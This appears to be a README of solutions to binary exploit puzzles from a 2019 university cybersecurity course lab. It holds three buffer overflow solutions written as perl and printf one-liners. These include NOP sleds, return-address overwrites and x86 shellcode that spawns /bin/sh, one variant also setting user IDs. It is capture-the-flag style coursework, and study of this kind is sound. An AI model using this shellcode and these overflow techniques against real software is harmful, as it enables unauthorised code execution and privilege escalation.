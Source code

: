 # Emory Fall 2019: CS453: Cybersecurity

The labs are on platform.adversary.io. They consisted of binary bombs, web exploit exercises, and binary exploits.
This folder only contains the binary exploit puzzles and their solutions.

## Overflow 1

Solution:  
./overflow aaaabbbbccccdddd$(perl -e 'print "\x48\x43\x4b\x52"')  
Pretty standard overflow: just had to input the location for secret after filling up the buffer.


## Overflow 2

Solution:  
$(perl -e 'print "\x90" x (256-40)')$(perl -e 'print "\xeb\x18\x5b\xb8\xf5\xff\xff\xff\xf7\xd8\x31\xd2\x88\x53\x07\x89\x5b\x08\x89\x53\x0c\x8d\x4b\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x43\x43" ')AAAAAAAAAAAA$(perl -e 'print "\xe8\xd4\xff\xff"')  
The idea is to fill up the buffer, leaving 40 bytes of room for the shellcode. Then, overwrite the ebp, and return into the buffer. Some extra padding was used for stack alignment. 

## Chained Overflow
Solution:  
echo $(perl -e 'printf "\x11" x 4')$(perl -e 'print "\x90" x 3812')$(perl -e 'print "\x90" x (256-55)')$(printf "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xeb\x18\x5b\xb8\xf5\xff\xff\xff\xf7\xd8\x31\xd2\x88\x53\x07\x89\x5b\x08\x89\x53\x0c\x8d\x4b\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x43\x45")$(printf "\x97\x6c\x6c\xe8\xd4\xff\xff") > temp.hex  
cat temp.hex - | ./overflow RUSHKEKEKE$(perl -e 'printf "\x2e"x9')$(printf "\x34\xa9\x87\x04\x08")
run RUSHKEKEKE$(perl -e 'printf "\x2e"x9')$(printf "\x34\xa9\x87\x04\x08") < temp.hex  
This was a hard one.
